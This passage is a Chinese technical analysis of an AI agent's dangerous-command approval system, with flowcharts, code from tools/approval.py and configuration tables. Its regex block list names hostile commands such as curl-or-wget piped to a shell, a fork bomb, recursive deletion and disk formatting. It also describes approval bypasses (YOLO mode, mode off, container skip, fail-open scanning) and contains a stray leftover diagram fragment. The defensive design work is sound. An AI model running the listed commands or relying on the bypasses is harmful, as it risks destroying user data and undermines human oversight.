│                                      │          │           │    │         │    │     │    │       │         │                   │
│                                      ▼          ▼           ▼    ▼         ▼    ▼     ▼    ▼       ▼         ▼                   │
│                             ┌───────────────────────────────────────────────────────────────────────────────────────────────┐   │
│                             │                              继续执行命令                                                │   │
│                             └────────────────────────────────────┬──────────────────────────────────────────────────────┘   │
│                                                                    │                                                            │
│                                                                    ▼                                                            │
│  ┌───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐   │
│  │  结束                                                                                                                  │   │
│  └───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┘   │
│                                                                            │
└──────────────────────────────────────────────────────────────────────────────┘
```

### 3.2 Tirith 安全扫描流程

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                            Tirith 安全扫描流程                                │
├──────────────────────────────────────────────────────────────────────────────┤
│                                                                            │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  check_command_security(command)                                     │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  加载配置: tirith_enabled / path / timeout / fail_open              │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  tirith_enabled？                                                    │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│               ┌─────────────────────┴─────────────────────┐               │
│               ▼                                           ▼               │
│  ┌───────────────────────────┐         ┌───────────────────────────┐   │
│  │ 返回 allow                │         │ 解析 Tirith 二进制        │   │
│  └───────────────────────────┘         │ _resolve_tirith_binary   │   │
│                                        └─────────────┬─────────────┘   │
│                                                       │                 │
│                                                       ▼                 │
│                                        ┌───────────────────────────┐   │
│                                        │ 已缓存 _resolved_path？   │   │
│                                        └─────────────┬─────────────┘   │
│                                             ┌────────┴────────┐         │
│                                             ▼                 ▼         │
│                                  ┌───────────────┐   ┌───────────────────┐ │
│                                  │ 使用缓存路径  │   │ 检查 PATH 中的    │ │
│                                  └───────┬───────┘   │ tirith 二进制     │ │
│                                          │           └─────────┬─────────┘ │
│                                          │                     │           │
│                                          │           ┌─────────┴─────────┐ │
│                                          │           ▼                   ▼ │
│                                          │   ┌───────────────┐   ┌───────────────┐ │
│                                          │   │ 在 PATH 中     │   │ 检查配置      │ │
│                                          │   │ 找到？         │   │ tirith_path   │ │
│                                          │   └───────┬───────┘   └───────┬───────┘ │
│                                          │           │                   │         │
│                                          │           │         ┌─────────┴─────────┐ │
│                                          │           │         ▼                   ▼ │
│                                          │           │   ┌───────────────┐   ┌───────────────────┐ │
│                                          │           │   │ 使用 PATH 中   │   │ 文件存在？        │ │
│                                          │           │   │ 的路径         │   │                   │ │
│                                          │           │   └───────┬───────┘   └─────────┬─────────┘ │
│                                          │           │           │                     │           │
│                                          │           │           │           ┌─────────┴─────────┐ │
│                                          │           │           │           ▼                     ▼ │
│                                          │           │           │   ┌───────────────┐   ┌───────────────────┐ │
│                                          │           │           │   │ 使用配置路径  │   │ 后台线程安装      │ │
│                                          │           │           │   └───────┬───────┘   └─────────┬─────────┘ │
│                                          │           │           │           │                     │           │
│                                          │           │           │           └─────────┬─────────────┘           │
│                                          │           │           │                     │                     │
│                                          │           │           │                     ▼                     │
│                                          │           │           │           ┌───────────────────┐             │
│                                          │           │           │           │ 检测目标平台       │             │
│                                          │           │           │           │ Linux/macOS       │             │
│                                          │           │           │           │ x86_64/aarch64    │             │
│                                          │           │           │           └─────────┬─────────┘             │
│                                          │           │           │                     │                     │
│                                          │           │           │                     ▼                     │
│                                          │           │           │           ┌───────────────────┐             │
│                                          │           │           │           │ 下载 GitHub        │             │
│                                          │           │           │           │ Release tarball   │             │
│                                          │           │           │           └─────────┬─────────┘             │
│                                          │           │           │                     │                     │
│                                          │           │           │                     ▼                     │
│                                          │           │           │           ┌───────────────────┐             │
│                                          │           │           │           │ 验证 SHA-256      │             │
│                                          │           │           │           │ 校验和            │             │
│                                          │           │           │           └─────────┬─────────┘             │
│                                          │           │           │                     │                     │
│                                          │           │           │                     ▼                     │
│                                          │           │           │           ┌───────────────────┐             │
│                                          │           │           │           │ cosign 在         │             │
│                                          │           │           │           │ PATH 中？         │             │
│                                          │           │           │           └─────────┬─────────┘             │
│                                          │           │           │           ┌───────┴───────┐             │
│                                          │           │           │           ▼               ▼             │
│                                          │           │           │   ┌───────────────┐   ┌───────────────┐ │
│                                          │           │           │   │ cosign 签名   │   │ 跳过 cosign   │ │
│                                          │           │           │   │ 验证          │   │ 验证          │ │
│                                          │           │           │   └───────┬───────┘   └───────┬───────┘ │
│                                          │           │           │           │                   │         │
│                                          │           │           │           └─────────┬──────────┘         │
│                                          │           │           │                     │                   │
│                                          │           │           │                     ▼                   │
│                                          │           │           │           ┌───────────────────┐             │
│                                          │           │           │           │ 解压到            │             │
│                                          │           │           │           │ $HERMES_HOME/bin/│             │
│                                          │           │           │           └─────────┬─────────┘             │
│                                          │           │           │                     │                     │
│                                          │           │           │                     ▼                     │
│                                          │           │           │           ┌───────────────────┐             │
│                                          │           │           │           │ chmod +x          │             │
│                                          │           │           │           │ 设置执行权限      │             │
│                                          │           │           │           └─────────┬─────────┘             │
│                                          │           │           │                     │                     │
│                                          │           │           │                     ▼                     │
│                                          │           │           │           ┌───────────────────┐             │
│                                          │           │           │           │ 缓存到            │             │
│                                          │           │           │           │ _resolved_path   │             │
│                                          │           │           │           └─────────┬─────────┘             │
│                                          │           │           │                     │                     │
│                                          └───────────┴───────────┴─────────────┴───────────────────┘             │
│                                                                            │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  执行 tirith scan (subprocess.run)                                  │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  超时或错误？                                                        │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│               ┌─────────────────────┴─────────────────────┐               │
│               ▼                                           ▼               │
│  ┌───────────────────────────┐         ┌───────────────────────────┐   │
│  │ fail_open？              │         │ 解析 JSON 输出            │   │
│  └─────────────┬───────────┘         │ findings + summary       │   │
│                │                       └─────────────┬─────────────┘   │
│         ┌──────┴──────┐                            │                   │
│         ▼             ▼                            ▼                   │
│  ┌────────────┐  ┌────────────┐     ┌────────────────────────────────┐ │
│  │ 是: 返回    │  │ 否: 返回   │     │ 退出码                         │ │
│  │ allow      │  │ block     │     └───────────────┬────────────┘   │
│  └────────────┘  └────────────┘           ┌──────────┴──────────┐       │
│                                          │ 0          │ 1        │ 2   │
│                                          ▼            ▼          ▼     │
│                                   ┌───────────┐ ┌───────────┐ ┌───────────────┐ │
│                                   │ 返回      │ │ 返回      │ │ 返回 warn    │ │
│                                   │ allow    │ │ block    │ │              │ │
│                                   └───────────┘ └───────────┘ └───────────────┘ │
│                                                                            │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  结束                                                               │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                                                            │
└──────────────────────────────────────────────────────────────────────────────┘
```

### 3.3 危险命令检测流程

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                            危险命令检测流程                                    │
├──────────────────────────────────────────────────────────────────────────────┤
│                                                                            │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  detect_dangerous_command(command)                                  │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  命令规范化 (_normalize_command_for_detection)                      │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  strip_ansi: ANSI 转义序列清洗                                       │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  移除 null 字节                                                       │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Unicode NFKC 规范化                                                  │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  转换为小写                                                           │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  遍历 DANGEROUS_PATTERNS (130+)                                     │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  re.search(pattern, command) 匹配？                                  │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│               ┌─────────────────────┴─────────────────────┐               │
│               ▼                                           ▼               │
│  ┌───────────────────────────┐         ┌───────────────────────────┐   │
│  │ 匹配                      │         │ 不匹配                     │   │
│  │ 返回 True, pattern_key,   │         │ 还有更多模式？             │   │
│  │ description               │         └─────────────┬─────────────┘   │
│  └─────────────┬───────────┘                   ┌─────┴─────┐           │
│                │                               ▼           ▼           │
│                │                        ┌──────────┐   ┌──────────────┐ │
│                │                        │ 是       │   │ 否           │ │
│                │                        │ 继续遍历  │   │ 返回 False,  │ │
│                │                        └──────────┘   │ None, None   │ │
│                │                                    └──────────────────┘ │
│                ▼                                                              │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  结束                                                               │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                                                            │
└──────────────────────────────────────────────────────────────────────────────┘
```

### 3.4 智能 LLM 评估流程

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                            智能 LLM 评估流程                                  │
├──────────────────────────────────────────────────────────────────────────────┤
│                                                                            │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  _smart_approve(command, description)                                │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  获取辅助 LLM 客户端 (get_text_auxiliary_client)                    │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  LLM 客户端可用？                                                     │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│               ┌─────────────────────┴─────────────────────┐               │
│               ▼                                           ▼               │
│  ┌───────────────────────────┐         ┌───────────────────────────┐   │
│  │ 否: 返回 escalate         │         │ 是: 构建风险评估提示词    │   │
│  └───────────────────────────┘         └─────────────┬─────────────┘   │
│                                                       │                   │
│                                                       ▼                   │
│                                    ┌───────────────────────────────────────┐ │
│                                    │ 构建提示词:                          │ │
│                                    │ "You are a security reviewer..."    │ │
│                                    │                                       │ │
│                                    │ Command: {command}                   │ │
│                                    │ Flagged reason: {description}        │ │
│                                    │                                       │ │
│                                    │ Rules:                               │ │
│                                    │ - APPROVE if clearly safe           │ │
│                                    │ - DENY if genuinely dangerous       │ │
│                                    │ - ESCALATE if uncertain             │ │
│                                    │                                       │ │
│                                    │ Respond with exactly one word:      │ │
│                                    │ APPROVE, DENY, or ESCALATE"         │ │
│                                    └─────────────────────┬─────────────────┘ │
│                                                       │                     │
│                                                       ▼                     │
│                                    ┌───────────────────────────────────────┐ │
│                                    │ 调用 LLM (chat.completions.create)  │ │
│                                    └─────────────────────┬─────────────────┘ │
│                                                       │                     │
│                                                       ▼                     │
│                                    ┌───────────────────────────────────────┐ │
│                                    │ 解析响应 (提取 APPROVE/DENY/ESCALATE)│ │
│                                    └─────────────────────┬─────────────────┘ │
│                                                       │                     │
│                                                       ▼                     │
│                                    ┌───────────────────────────────────────┐ │
│                                    │ 回答包含？                           │ │
│                                    └─────────────────────┬─────────────────┘ │
│                                         ┌───────────────┴───────────────┐   │
│                                         ▼               ▼               ▼   │
│                                  ┌────────────┐  ┌────────────┐  ┌────────────┐ │
│                                  │ APPROVE   │  │ DENY      │  │ ESCALATE/  │ │
│                                  │           │  │           │  │ 其他       │ │
│                                  └─────┬─────┘  └─────┬─────┘  └─────┬─────┘   │
│                                        │             │             │         │
│                                        ▼             ▼             ▼         │
│                                 ┌───────────┐  ┌───────────┐  ┌───────────┐   │
│                                 │ 返回      │  │ 返回      │  │ 返回     │   │
│                                 │ approve  │  │ deny     │  │ escalate │   │
│                                 └───────────┘  └───────────┘  └───────────┘   │
│                                                                            │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  结束                                                               │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                                                            │
└──────────────────────────────────────────────────────────────────────────────┘
```

### 3.5 Gateway 阻塞队列审批流程

```
┌──────────────────────────────────────────────────────────────────────────────┐
│                         Gateway 阻塞队列审批流程                               │
├──────────────────────────────────────────────────────────────────────────────┤
│                                                                            │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  用户执行终端命令                                                     │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Gateway.handle_function_call(terminal, args)                        │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Agent 线程: check_all_command_guards(command)                      │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  检测到危险命令                                                       │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  创建 _ApprovalEntry                                                 │   │
│  │  entry = _ApprovalEntry(approval_data)                               │   │
│  │    - event: threading.Event  (阻塞等待)                               │   │
│  │    - data: approval_data    (command/description/pattern_keys)      │   │
│  │    - result: str            (once/session/always/deny)               │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  _gateway_queues[session_key].append(entry)                         │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  entry.event.wait(timeout=300)                                       │   │
│  │                                                                    │   │
│  │  ══════════════════════════════════════════════════════════════    │   │
│  │  ║                    阻塞等待用户响应...                          ║    │   │
│  │  ══════════════════════════════════════════════════════════════    │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Agent 线程: notify_cb(approval_data)                               │   │
│  │  通知 Gateway                                                       │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Gateway: 显示审批请求给用户                                          │   │
│  │  ⚠️ DANGEROUS COMMAND                                               │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  用户输入 /approve once/session/always                               │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Gateway: resolve_gateway_approval(session_key, choice)             │   │
│  │                                                                    │   │
│  │  entry.result = choice  (once/session/always/deny)                  │   │
│  │  entry.event.set()      (唤醒阻塞线程)                               │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  唤醒: entry.event.set() 触发                                        │   │
│  │                                                                    │   │
│  │  ══════════════════════════════════════════════════════════════    │   │
│  │  ║                    阻塞解除，继续执行                            ║    │   │
│  │  ══════════════════════════════════════════════════════════════    │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Agent: 检查 entry.result                                            │   │
│  │  从队列移除 entry                                                   │   │
│  │  持久化审批状态                                                     │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Agent: 继续执行命令                                                 │   │
│  └──────────────────────────────────┬───────────────────────────────────┘   │
│                                       │                                       │
│                                       ▼                                       │
│  ┌──────────────────────────────────────────────────────────────────────┐   │
│  │  Gateway: 返回命令输出给用户                                          │   │
│  └──────────────────────────────────────────────────────────────────────┘   │
│                                                                            │
└──────────────────────────────────────────────────────────────────────────────┘
```
    
    Command: {command}
    Flagged reason: {description}
    
    Rules:
    - APPROVE if clearly safe
    - DENY if genuinely dangerous
    - ESCALATE if uncertain
    
    Respond with exactly one word:
    APPROVE, DENY, or ESCALATE"]
    
    PromptText --> CallLLM[调用 LLM<br/>chat.completions.<br/>create]
    
    CallLLM --> ParseResponse[解析响应<br/>提取 APPROVE/DENY/ESCALATE]
    
    ParseResponse --> CheckAnswer{回答<br/>包含?}
    
    CheckAnswer -->|APPROVE| ReturnApprove[返回 approve]
    CheckAnswer -->|DENY| ReturnDeny[返回 deny]
    CheckAnswer -->|ESCALATE/其他 | ReturnEscalate
    
    ReturnApprove --> End[结束]
    ReturnDeny --> End
    ReturnEscalate --> End
```

### 3.5 Gateway 阻塞队列审批流程



---

## 4. 核心代码分析

### 4.1 危险模式定义

**文件**: `tools/approval.py:75-133`

```python
DANGEROUS_PATTERNS = [
    (r'\brm\s+(-[^\s]*\s+)*/', "delete in root path"),
    (r'\brm\s+-[^\s]*r', "recursive delete"),
    (r'\brm\s+--recursive\b', "recursive delete (long flag)"),
    (r'\bchmod\s+(-[^\s]*\s+)*(777|666|o\+[rwx]*w|a\+[rwx]*w)\b', "world/other-writable permissions"),
    (r'\bchown\s+(-[^\s]*)?R\s+root', "recursive chown to root"),
    (r'\bmkfs\b', "format filesystem"),
    (r'\bdd\s+.*if=', "disk copy"),
    (r'>\s*/dev/sd', "write to block device"),
    (r'\bDROP\s+(TABLE|DATABASE)\b', "SQL DROP"),
    (r'\bDELETE\s+FROM\b(?!.*\bWHERE\b)', "SQL DELETE without WHERE"),
    (r'\bTRUNCATE\s+(TABLE)?\s*\w', "SQL TRUNCATE"),
    (r'>\s*/etc/', "overwrite system config"),
    (r'\bsystemctl\s+(stop|disable|mask)\b', "stop/disable system service"),
    (r'\bkill\s+-9\s+-1\b', "kill all processes"),
    (r'\bpkill\s+-9\b', "force kill processes"),
    (r':\(\)\s*\{\s*:\s*\|\s*&\s*\}\s*;\s*:', "fork bomb"),
    (r'\b(bash|sh|zsh|ksh)\s+-[^\s]*c(\s+|$)', "shell command via -c/-lc flag"),
    (r'\b(python[23]?|perl|ruby|node)\s+-[ec]\s+', "script execution via -e/-c flag"),
    (r'\b(curl|wget)\b.*\|\s*(ba)?sh\b', "pipe remote content to shell"),
    (r'\b(bash|sh|zsh|ksh)\s+<\s*<?\s*\(\s*(curl|wget)\b', "execute remote script via process substitution"),
    (r'\btee\b.*["\']?{_SENSITIVE_WRITE_TARGET}', "overwrite system file via tee"),
    (r'>>?\s*["\']?{_SENSITIVE_WRITE_TARGET}', "overwrite system file via redirection"),
    (r'\bxargs\s+.*\brm\b', "xargs with rm"),
    (r'\bfind\b.*-exec\s+(/\S*/)?rm\b', "find -exec rm"),
    (r'\bfind\b.*-delete\b', "find -delete"),
    (r'gateway\s+run\b.*(&\s*$|&\s*;|\bdisown\b|\bsetsid\b)', "start gateway outside systemd"),
    (r'\bnohup\b.*gateway\s+run\b', "start gateway outside systemd"),
    (r'\b(pkill|killall)\b.*\b(hermes|gateway|cli\.py)\b', "kill hermes/gateway process"),
    (r'\bkill\b.*\$\(\s*pgrep\b', "kill process via pgrep expansion"),
    (r'\b(cp|mv|install)\b.*\s/etc/', "copy/move file into /etc/"),
    (r'\bsed\s+-[^\s]*i.*\s/etc/', "in-place edit of system config"),
    (r'\b(python[23]?|perl|ruby|node)\s+<<', "script execution via heredoc"),
    (r'\bgit\s+reset\s+--hard\b', "git reset --hard"),
    (r'\bgit\s+push\b.*--force\b', "git force push"),
    (r'\bgit\s+push\b.*-f\b', "git force push short flag"),
    (r'\bgit\s+clean\s+-[^\s]*f', "git clean with force"),
    (r'\bgit\s+branch\s+-D\b', "git branch force delete"),
    (r'\bchmod\s+\+x\b.*[;&|]+\s*\./', "chmod +x followed by immediate execution"),
]
```

**设计要点**:
1. **分类覆盖**: 文件删除、权限修改、磁盘操作、数据库破坏、系统服务、代码执行、自终止保护、网关保护、Git 破坏
2. **长短期标志**: 同时匹配 `-r` 和 `--recursive`
3. **Shell 注入**: 捕获 `-c`、`-e`、管道、进程替换、heredoc 等多种注入方式
4. **敏感路径**: 使用 `_SENSITIVE_WRITE_TARGET` 匹配 `/etc/`、`~/.ssh/`、`~/.hermes/.env`

### 4.2 命令规范化

**文件**: `tools/approval.py:163-178`

```python
def _normalize_command_for_detection(command: str) -> str:
    """Normalize a command string before dangerous-pattern matching.

    Strips ANSI escape sequences (full ECMA-48 via tools.ansi_strip),
    null bytes, and normalizes Unicode fullwidth characters so that
    obfuscation techniques cannot bypass the pattern-based detection.
    """
    from tools.ansi_strip import strip_ansi

    # Strip all ANSI escape sequences (CSI, OSC, DCS, 8-bit C1, etc.)
    command = strip_ansi(command)
    # Strip null bytes
    command = command.replace('\x00', '')
    # Normalize Unicode (fullwidth Latin, halfwidth Katakana, etc.)
    command = unicodedata.normalize('NFKC', command)
    return command
```

**设计要点**:
1. **ANSI 全覆盖**: ECMA-48 标准所有转义序列 (CSI/OSC/DCS/SOS/PM/APC/8-bit C1)
2. **null 字节防御**: 防止 `\x00` 截断绕过
3. **Unicode 规范化**: NFKC 将全角字符转换为半角 (如 `rm -rf` → `rm -rf`)

### 4.3 综合命令守卫检查

**文件**: `tools/approval.py:690-800`

```python
def check_all_command_guards(command: str, env_type: str,
                             approval_callback=None) -> dict:
    """Run all pre-exec security checks and return a single approval decision.

    Gathers findings from tirith and dangerous-command detection, then
    presents them as a single combined approval request.
    """
    # Skip containers for both checks
    if env_type in ("docker", "singularity", "modal", "daytona"):
        return {"approved": True, "message": None}

    # --yolo or approvals.mode=off: bypass all approval prompts.
    approval_mode = _get_approval_mode()
    if os.getenv("HERMES_YOLO_MODE") or is_current_session_yolo_enabled() or approval_mode == "off":
        return {"approved": True, "message": None}

    is_cli = os.getenv("HERMES_INTERACTIVE")
    is_gateway = os.getenv("HERMES_GATEWAY_SESSION")
    is_ask = os.getenv("HERMES_EXEC_ASK")

    # Preserve the existing non-interactive behavior
    if not is_cli and not is_gateway and not is_ask:
        return {"approved": True, "message": None}

    # --- Phase 1: Gather findings from both checks ---

    # Tirith check
    tirith_result = {"action": "allow", "findings": [], "summary": ""}
    try:
        from tools.tirith_security import check_command_security
        tirith_result = check_command_security(command)
    except ImportError:
        pass  # tirith module not installed — allow

    # Dangerous command check (detection only, no approval)
    is_dangerous, pattern_key, description = detect_dangerous_command(command)

    # --- Phase 2: Decide ---

    # Collect warnings that need approval
    warnings = []  # list of (pattern_key, description, is_tirith)

    session_key = get_current_session_key()

    # Tirith block/warn → approvable warning with rich findings.
    if tirith_result["action"] in ("block", "warn"):
        findings = tirith_result.get("findings") or []
        rule_id = findings[0].get("rule_id", "unknown") if findings else "unknown"
        tirith_key = f"tirith:{rule_id}"
        tirith_desc = _format_tirith_description(tirith_result)
        if not is_approved(session_key, tirith_key):
            warnings.append((tirith_key, tirith_desc, True))

    if is_dangerous:
        if not is_approved(session_key, pattern_key):
            warnings.append((pattern_key, description, False))

    # Nothing to warn about
    if not warnings:
        return {"approved": True, "message": None}

    # --- Phase 2.5: Smart approval (auxiliary LLM risk assessment) ---
    if approval_mode == "smart":
        combined_desc_for_llm = "; ".join(desc for _, desc, _ in warnings)
        verdict = _smart_approve(command, combined_desc_for_llm)
        if verdict == "approve":
            # Auto-approve and grant session-level approval for these patterns
            for key, _, _ in warnings:
                approve_session(session_key, key)
            logger.debug("Smart approval: auto-approved '%s' (%s)",
                         command[:60], combined_desc_for_llm)
            return {"approved": True, "message": None,
                    "smart_approved": True,
                    "description": combined_desc_for_llm}
        elif verdict == "deny":
            combined_desc_for_llm = "; ".join(desc for _, desc, _ in warnings)
            return {
                "approved": False,
                "message": f"BLOCKED by smart approval: {combined_desc_for_llm}. "
                           "The command was assessed as genuinely dangerous. Do NOT retry.",
                "smart_denied": True,
            }
        # verdict == "escalate" → fall through to manual prompt

    # --- Phase 3: Approval ---
    # ... (Gateway/CLI 审批路径)
```

**设计要点**:
1. **三阶段架构**: Phase 1 收集 → Phase 2 决策 → Phase 3 审批
2. **智能审批**: LLM 风险评估，自动批准低风险命令
3. **合并提示**: Tirith + 危险模式合并为单一审批请求
4. **容器跳过**: 容器环境默认安全，跳过审批

### 4.4 Gateway 阻塞队列

**文件**: `tools/approval.py:214-280`

```python
class _ApprovalEntry:
    """One pending dangerous-command approval inside a gateway session."""
    __slots__ = ("event", "data", "result")

    def __init__(self, data: dict):
        self.event = threading.Event()
        self.data = data          # command, description, pattern_keys, …
        self.result: Optional[str] = None  # "once"|"session"|"always"|"deny"


_gateway_queues: dict[str, list] = {}        # session_key → [_ApprovalEntry, …]
_gateway_notify_cbs: dict[str, object] = {}  # session_key → callable(approval_data)


def resolve_gateway_approval(session_key: str, choice: str,
                             resolve_all: bool = False) -> int:
    """Called by the gateway's /approve or /deny handler to unblock
    waiting agent thread(s).

    When *resolve_all* is True every pending approval in the session
    is resolved at once (``/approve all``).  Otherwise only the oldest one
    is resolved (FIFO).

    Returns the number of approvals resolved (0 means nothing was pending).
    """
    with _lock:
        queue = _gateway_queues.get(session_key)
        if not queue:
            return 0
        if resolve_all:
            targets = list(queue)
            queue.clear()
        else:
            targets = [queue.pop(0)]
        if not queue:
            _gateway_queues.pop(session_key, None)

    for entry in targets:
        entry.result = choice
        entry.event.set()
    return len(targets)
```

**设计要点**:
1. **线程安全**: 所有操作都在 `_lock` 保护下
2. **FIFO 队列**: 先提交先审批，支持 `/approve all` 批量审批
3. **Event 阻塞**: `threading.Event` 实现高效阻塞/唤醒
4. **会话隔离**: 每个 `session_key` 独立队列，互不干扰

---

## 5. 设计模式分析

### 5.1 责任链模式 (Chain of Responsibility)

命令安全检测使用责任链模式，依次经过多个检查点：

```python
# Phase 1: 收集
tirith_result = check_command_security(command)
is_dangerous, pattern_key, description = detect_dangerous_command(command)

# Phase 2: 决策
warnings = []
if tirith_result["action"] in ("block", "warn"):
    warnings.append(...)
if is_dangerous:
    warnings.append(...)

# Phase 3: 审批
if warnings:
    # 触发审批流程
```

**优势**:
- 每个检查点独立，可动态添加/移除
- 短路优化：无警告时直接返回
- 结果聚合：多个检查点发现合并为单一审批请求

### 5.2 策略模式 (Strategy Pattern)

审批模式使用策略模式，支持多种审批策略：

```python
approval_mode = _get_approval_mode()  # "manual" | "smart" | "off"

if approval_mode == "smart":
    verdict = _smart_approve(command, description)  # LLM 策略
elif approval_mode == "manual":
    choice = prompt_dangerous_approval(command, description)  # 手动策略
elif approval_mode == "off":
    return {"approved": True}  # 禁用策略
```

**优势**:
- 运行时切换审批策略
- 新增策略无需修改调用代码

### 5.3 单例模式 (Singleton Pattern)

会话审批状态使用模块级单例：

```python
_lock = threading.Lock()
_pending: dict[str, dict] = {}
_session_approved: dict[str, set] = {}
_permanent_approved: set = set()
_session_yolo: set[str] = set()
_gateway_queues: dict[str, list] = {}
```

**优势**:
- 全局共享审批状态
- 线程安全访问

### 5.4 观察者模式 (Observer Pattern)

Gateway 审批回调使用观察者模式：

```python
register_gateway_notify(session_key, cb)  # 注册观察者

# 触发通知
notify_cb(approval_data)  # 通知所有观察者
```

**优势**:
- 解耦 Agent 线程与 Gateway 事件循环
- 支持动态注册/注销

### 5.5 代理模式 (Proxy Pattern)

Tirith 二进制路径解析使用代理模式：

```python
_resolved_path: str | None | bool = None  # 缓存

def _resolve_tirith_binary():
    global _resolved_path
    if _resolved_path is not None:
        return _resolved_path  # 使用缓存代理
    # 实际解析逻辑
    _resolved_path = tirith_path
    return _resolved_path
```

**优势**:
- 延迟加载：首次调用才解析
- 缓存优化：避免重复解析

---

## 6. 配置接口

### 6.1 config.yaml 配置

```yaml
# 审批配置
approvals:
  mode: "smart"  # "manual" | "smart" | "off"
  timeout: 60  # CLI 审批超时 (秒)
  gateway_timeout: 300  # Gateway 审批超时 (秒)

# 安全配置
security:
  tirith_enabled: True
  tirith_path: "tirith"  # 或绝对路径
  tirith_timeout: 5
  tirith_fail_open: True  # 扫描失败时允许执行

# 永久命令白名单
command_allowlist:
  - "recursive delete"  # 允许 rm -rf
  - "script execution via -c flag"  # 允许 python -c
  - "tirith:homograph_detection"  # 允许特定 Tirith 规则
```

### 6.2 环境变量配置

| 环境变量 | 描述 | 默认值 |
|---------|------|-------|
| `HERMES_YOLO_MODE` | 启用 YOLO 模式，跳过所有审批 | 未设置 |
| `TIRITH_ENABLED` | 启用 Tirith 扫描 | `True` |
| `TIRITH_BIN` | Tirith 二进制路径 | `tirith` |
| `TIRITH_TIMEOUT` | Tirith 扫描超时 | `5` |
| `TIRITH_FAIL_OPEN` | Tirith 失败时允许执行 | `True` |
| `HERMES_INTERACTIVE` | CLI 交互模式标志 | 未设置 |
| `HERMES_GATEWAY_SESSION` | Gateway 会话标志 | 未设置 |

---

